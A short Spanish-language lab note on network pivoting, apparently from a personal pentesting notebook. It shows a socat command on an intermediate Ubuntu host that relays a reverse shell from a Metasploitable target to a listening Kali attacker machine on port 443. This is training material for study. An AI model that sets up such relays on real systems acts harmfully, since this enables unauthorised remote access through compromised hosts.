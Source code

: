 #pivoting 
Dentro de la máquina Ubuntu intermedia, debemos ejecutar este comando para obtener una reverse shell de la máquina objetivo final hacia la máquina kali atacante, por lo que en primer lugar nos ponemos en escucha con netcat desde la máquina Kali:
![[Pasted image 20240615203355.png]]

Y en la máquina Ubuntu ponemos el siguiente comando:
```bash
socat tcp-l:443,fork,reuseaddr tcp:192.168.0.30:443
```

![[Pasted image 20240615203400.png]]

Y ahora la máquina ubuntu estará preparada para servir como puente y enviar la reverse shell a la kali, de tal forma, que todo el tráfico que reciba la máquina ubuntu por el puerto 443 lo va a enviar a la máquina kali por el mismo puerto, por lo que ahora si ejecutamos el comando para obtener una reverse shell, la habremos recibido desde la metasploitable a la máquina ubuntu:

![[Pasted image 20240615203405.png]]

Y en Kali recibimos la conexión:

![[Pasted image 20240615203410.png]]
